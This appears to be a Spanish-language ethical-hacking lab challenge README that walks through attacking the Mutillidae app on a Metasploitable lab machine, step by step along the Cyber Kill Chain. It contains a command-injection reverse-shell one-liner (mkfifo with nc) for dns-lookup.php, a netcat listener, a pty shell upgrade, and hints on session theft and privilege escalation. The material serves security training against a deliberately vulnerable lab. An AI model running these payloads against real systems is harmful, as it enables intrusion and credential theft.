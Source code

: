 # Reto 1 CEH Interno

> Antes de iniciar, recuerda hacer prueba de red, debes tener alcance a la Metasplotable y a internet.

## Objetivo
### - Principal
¿Quien es el apellido de Jakub?
### - Militarizado
Controlar una forma de acceder a la informacion de Jakub

## 1. Reconocimiento (Recoonnaissance)
### - Research
- Jakub debe estar enlazado con Mutillidae
- Mutillidae ya fue explotado en login y con las cookies
- Reutiliza las pruebas anteriores hasta obtener mando y control
### - Reconocimiento del sistema
- Reconocimiento de red y script de vulnerabilidades RustScan
- Ingresa a Mutillidae en Metasploitable del Laboratorio http://metasploitable/mutillidae
- Reconoce los directorios con DirSearch

## 2. Militarizacion (Weaponization)
### - Estrategia
- Ciclo del error (Tabu): el sistemas utiliza versiones obsoletas y vulnerables
- Exceso de seguridad (Totem):  Se confia en que el usuario realizara la busqueda correcta de DNS en dns-lookup.php
	
### - Armamento 
- Prepara el exploit de acuerdo a la respuesta que acepte el servidor
- Netcat tiene una version obsoleta, algunos trucos pueden ayudarte

## 3. Entrega (Delivery)
- login.php
- dns.lookup.php
- Prepara la recepcion en tu kali con
	nc -lvnp 1234
		
## Explotacion:
- Ingresa en la entrega dns-lookup.php
	&& rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc metasploitable 1234 >/tmp/f
- Obten un shell interactivo utilizando python.
	$ python -c 'import pty; pty.spawn("/bin/bash")'
- Busca algun dato sobre Jakub en la carpeta.
- Consigue el apellido haciendo Dorking, tendras el objetivo.
	
## Instalación:
- No se puede ejecutar nada desde www-data.
- Busca un archivo que te permita robar alguna sesion del servidor.
	** Quiza las siglas del equipo donde jugo su final de Champions ayude.
- Obtener la clave cifrada y prueba en CyberChef de github
	** Base64 / Hex / Base64
- Ingresa a msfadmin con:
	$ sudo 'usuario encontrado'
- Y la contraseña para tener acceso, nos instalaremos aqui, no generamos backdoor.
	
## Comando & Control:
- Salir de la sesion.
- Ingresa en la cuenta con las credenciales de SSH, y prueba el acceso a root.
		
## Acciones en el objetivo:
- En lista las versiones vulnerables que validaste en la entrega, y prepara los exploits.
- Si el login.php es vulnerable a SQL Injection, el login de user-info lo será? Qué obtenemos?

## Referencias

### Conocimientos de Ethical Hacking
* **[Robo de Sesiones (Session Hijacking)](https://github.com/heanczko311299/CEH/blob/main/11/README.md)**

### Pruebas de seguridad aplicativa 
* **OWASP10.2017 / A1 - Injection Command** 
* **OWASP10.2017 / A6- Security Misconfiguration**

### Pruebas de Penetración
* **[CyberKillChain](https://github.com/heanczko311299/githack/tree/main/Metodologias/CyberKillChain/README.md)**

h4Ppy #@cK1n6 :)
